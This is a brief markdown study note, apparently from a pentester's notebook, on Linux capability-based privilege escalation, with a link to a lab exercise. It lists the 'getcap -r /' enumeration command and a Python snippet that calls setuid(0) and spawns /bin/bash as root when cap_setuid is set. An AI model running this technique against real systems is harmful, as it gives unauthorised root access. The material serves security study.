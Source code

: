 ## CAP
Getcap is a privilege  escalation tool to identify any getcap privileges for programs, files or services. 

	getcap -r / 2>/dev/null


##### CAP_SETUID
If you get an cap_setid this is a great sign. if this is associated with a scripting language or the like this will allow the scrip to run at any UID such as root (0) 

Here is a video on how this works:
https://attackdefense.com/challengedetailsnoauth?cid=1384

>import os
os.setuid(0)
os.system("/bin/bash")


Then simply run the command. 

Retunr to [[README]]
